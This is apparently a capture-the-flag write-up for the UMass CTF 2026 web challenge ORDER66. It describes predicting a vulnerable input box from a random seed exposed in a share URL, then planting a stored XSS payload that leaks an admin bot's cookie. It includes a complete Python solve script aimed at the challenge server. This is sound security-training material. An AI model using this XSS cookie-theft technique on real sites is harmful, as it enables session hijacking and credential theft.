

# ORDER66 — UMass CTF 2026

> **Room / Challenge:** ORDER66 (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** UMass CTF 2026
- **Challenge:** ORDER66 (web)

---

<p align="center"></p>

## Goal

Executing the bot to expose their flag.

## My Solution

Download the source here: [source.zip](https://github.com/jameskaois/ctf-writeups/raw/refs/heads/main/umass-ctf-2026/ORDER66/source.zip).

Exploit chain:

1. Grab the Seed: Look at the "Share URL" provided on the main page (e.g., `.../view/user_id/1234`). That last number (`1234`) is session's random seed.

2. Find the Vulnerable Box:

```python
import random
random.seed(1234) # Replace with seed
print(random.randint(1, 66))
```

3. Plant the Trap: Go to the box number that Python just spit out. Enter the payload `<script>console.log(document.cookie)</script>`.

4. Deploy the Bot: Copy Share URL and head to the `/admin` page. Paste the link into the prompt.

5. Collect the Flag: The bot visits URL, loads the vulnerable box, and gets hit by XSS payload. It prints its own cookie (the flag) to the console, and the web server displays that log directly on the screen.

Solve script leveraging XSS:

```python
import requests
import random
import re

BASE_URL = "http://order66.web.ctf.umasscybersec.org:48001/"

def solve():
    session = requests.Session()

    r = session.get(BASE_URL)

    match = re.search(r'/view/([^/]+)/(\d+)', r.text)
    if not match:
        print("failed to get uid and seed")
        return

    uid = match.group(1)
    seed = int(match.group(2))

    # predict the vulnerable box index
    random.seed(seed)
    v_index = random.randint(1, 66)
    print(f"the vulnerable box is: ORDER_{v_index}")

    payload = "<script>console.log(document.cookie)</script>"

    inject_data = {
        f"box_{v_index}": payload
    }

    session.post(BASE_URL, data=inject_data)

    view_url = f"{BASE_URL.rstrip('/')}/view/{uid}/{seed}"

    r_admin = session.post(f"{BASE_URL}admin/visit", data={"target_url": view_url})

    print("\nresponse:")
    print(r_admin.text)

if __name__ == "__main__":
    solve()
```
